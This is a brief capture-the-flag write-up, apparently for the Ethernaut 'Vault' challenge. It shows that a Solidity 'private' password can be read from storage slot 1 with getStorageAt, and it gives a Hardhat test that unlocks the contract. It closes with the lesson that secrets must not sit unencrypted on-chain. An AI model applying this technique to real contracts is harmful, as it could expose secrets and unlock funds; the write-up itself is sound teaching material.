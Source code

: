 # Vault Challenge Explanation

In Ethereum, designating a variable as `private` does not hide its data from the blockchain. This means we can retrieve the data using functions like `web3.eth.getStorageAt(address, storageSlot)`.

In the context of the Vault challenge, the password is located in slot 1 of the contract's storage. By invoking `web3.eth.getStorageAt(contract.address, 1)`, we can obtain the password.

With the password at hand, we can unlock the vault by calling the contract's `unlock()` function, thereby solving the challenge.

This challenge underscores the fact that sensitive data should not be stored unencrypted in a contract's storage, as it can be publicly accessed on the blockchain.

```javascript
it("solves the challenge", async function () {
  // Read password from storage
  // Password is at storage slot 1
  const password = await eoa.provider.getStorageAt(challenge.address, 1);
  console.log(
    `password = ${password} "${Buffer.from(password.slice(2), `hex`)}"`
  );

  tx = await challenge.unlock(password);
  await tx.wait();
  expect(await challenge.locked()).to.equal(false);
});
```
